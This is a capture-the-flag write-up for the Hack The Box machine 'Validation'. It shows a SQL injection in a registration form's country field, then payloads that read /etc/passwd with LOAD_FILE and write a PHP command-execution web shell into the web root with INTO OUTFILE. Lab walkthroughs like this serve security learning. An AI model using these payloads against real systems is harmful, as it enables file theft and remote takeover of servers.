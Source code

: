 # Validation - HTB Machine

[http://10.10.11.116/](http://10.10.11.116/)

![](Validation/Untitled.png)

We can enter any username and select the country to join the competition. Looking in Burp we can play with the parameters.

The web app logic is as follows:

1. User enter username and select country
2. A session cookie is generated (MD5) and user is redirected to `/account.php`
3. In `/account.php` the web app takes the user country input to display a list of players

# Finding the SQL Injection

Adding an extra `'` in the `country` value generates an error when `/account.php` is loaded.

```bash
username=caueb&country=Brazil'
```

![](Validation/Untitled1.png)

# Exploiting the SQL Injection

Dumping the `/etc/passwd` file:

```bash
username=caueb&country=Brazil' UNION SELECT LOAD_FILE('/etc/passwd') -- -
```

Uploading a PHP simple RCE (shell.php):

```bash
username=caueb&country=Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']) ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

![](Validation/Untitled2.png)